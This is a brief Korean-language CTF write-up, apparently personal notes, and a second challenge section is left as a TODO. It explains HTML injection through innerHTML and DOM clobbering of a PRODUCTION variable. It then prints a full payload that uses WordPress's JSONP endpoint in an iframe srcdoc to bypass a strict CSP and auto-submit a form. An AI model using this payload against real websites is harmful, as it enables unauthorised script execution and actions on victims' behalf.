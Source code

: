 portfolio.innerHTML을 가져오므로 html을 주입할 수 있다.

csp default header가 none이라서 평범한 xss는 불가능하다.

PRODUCTION은 Dom globbering을 사용한다.

```html
<a id="PRODUCTION"></a>
```

어쩐지 업솔빙을 못했는데 라업을 보니까 `/blog`라는 엔드포인트가 있는데 WordPress로 연결된다.

WordPress에는 `/blog/wp-json/wp/v2/users/1?_jsonp=alert`라는 웰노운 jsonp 엔드포인트가 있다고 한다.

```html
<!-- payload.html -->
<a id="PRODUCTION"></a>
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'>

</script>"></iframe>
```

---

## Beautiful Buttons	

TODO
